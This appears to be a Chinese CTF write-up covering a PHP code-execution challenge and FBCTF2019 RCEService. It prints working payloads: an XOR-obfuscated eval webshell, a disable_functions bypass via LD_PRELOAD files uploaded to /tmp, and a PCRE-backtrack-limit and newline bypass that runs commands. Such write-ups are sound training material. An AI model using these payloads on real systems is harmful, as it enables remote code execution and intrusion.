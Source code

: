 

payload:

```
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=eval($_POST[a])
```

蚁剑链接 无权限读取readflag 

<a href='https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD' target='_blank'>bypass_disablefunc_via_LD_PRELOAD</a>

将github中一下两个文件 上传有有权限的目录，在这里选择/tmp

[bypass_disablefunc.php](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc.php)

[bypass_disablefunc_x64.so](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc_x64.so)

```
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=var_dump(eval($_GET[a]))&a=include('/tmp/bypass_disablefunc.php');&cmd=../../../../../readflag&outpath=/tmp/123.txt&sopath=/tmp/bypass_disablefunc_x64.so
```



## [FBCTF2019]RCEService

**preg_match正则最大回溯绕过+换行绕过**

payload1:

```python
import requests
url="xxxxxx"
payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'
res = requests.post(url, data={"cmd":payload})
print(res.text)
```

payload2:

```
?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}
```

这里cat的路径要写 /bin/cat是因为通过查看源代码：`putenv('PATH=/home/rceservice/jail');`，可以发现jail应用于当前环境，cat不在当前配置的环境变量中，需要我们自行写完整路径

<a href='https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html' target='_blank'>use-pcre-backtrack-limit-to-bypass-restrict</a>





## [GKCTF2020]EZ三剑客-EzWeb

